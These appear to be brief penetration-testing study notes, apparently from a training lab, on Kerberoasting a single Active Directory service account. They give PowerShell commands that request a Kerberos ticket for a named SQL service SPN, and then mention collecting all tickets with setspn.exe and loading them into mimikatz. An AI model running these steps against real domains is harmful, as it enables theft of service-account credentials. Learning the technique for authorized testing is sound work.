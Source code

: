 #### Targeting a Single User for kerbroasting
get SPN from [[setspn.exe]]
```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "(SPN)MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

#### Retrieving All Tickets Using setspn.exe
[[setspn.exe]]

Load into mimikatz
[[mimikatz]]